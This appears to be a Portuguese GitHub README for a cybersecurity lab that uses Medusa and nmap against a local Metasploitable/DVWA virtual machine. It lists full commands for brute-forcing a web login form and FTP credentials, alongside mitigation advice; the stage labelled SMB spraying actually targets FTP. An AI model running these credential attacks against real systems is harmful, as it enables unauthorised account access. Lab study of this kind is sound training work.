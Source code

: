 # 💻 Simulação de Ataques em Ambiente Virtual

Este projeto demonstra a configuração de um ambiente virtual para simulação de ataques cibernéticos utilizando ferramentas como Kali Linux, Metasploitable e Medusa. O objetivo é estudar técnicas de força bruta e password spraying em serviços vulneráveis.

## 🧰 Ambiente Utilizado

- **VirtualBox** para virtualização
- **Kali Linux** como máquina atacante
- **Metasploitable** como máquina vulnerável

## 🎯 Objetivos

- Simular ataques de força bruta em FTP
- Automatizar tentativas de login em formulário web (DVWA)
- Realizar password spraying em SMB com enumeração de usuários

---

## 🔐 Etapa 1: Ataque de Força Bruta em Formulário Web (DVWA)

### 📋 Descrição

Ataque de força bruta para descobrir credenciais de login em um formulário web vulnerável.

### 🧪 Procedimento

1. Acesse o modo desenvolvedor do navegador (`F12`) e vá até a aba **Network** para identificar os parâmetros enviados pelo formulário.
2. Crie listas de usuários e senhas através dos comandos abaixo:

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

3. Execute o ataque com o Medusa utilizando o seguinte comando:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6
```

4. O Medusa exibirá os testes realizados e indicará o usuário válido através da seguinte mensagem `SUCCESS`.

### 🛡️ Mitigação

- Utilização de bibliotecas de autenticação robustas
- Implementação de CAPTCHA
- Autenticação multifator (2FA)

---

## 🧨 Etapa 2: Password Spraying em SMB com Enumeração de Usuários

### 📋 Descrição

O ataque de password spraying em serviços SMB após enumeração de usuários e portas abertas.

### 🧪 Procedimento

1. Enumere os serviços disponíveis:

```bash
nmap -sV -p 21,80,445,139 192.168.56.101
```

2. Verifique se o serviço FTP está ativo:

```bash
ftp 192.168.56.101
```

3. Crie listas de usuários e senhas:

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

4. Execute o ataque com o Medusa:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

5. O Medusa indicará sucesso com a mensagem `SUCCESS`.

6. Valide o acesso via FTP com as credenciais obtidas:

```bash
ftp 192.168.56.101
```

### 🛡️ Mitigação

- Políticas de senha fortes (letras, números e caracteres especiais)
- Troca periódica de senhas
- Restrição de tentativas de login

---

## 📎 Observações

Este projeto é apenas para fins educacionais criado a partir dos estudos em cybersecurity.
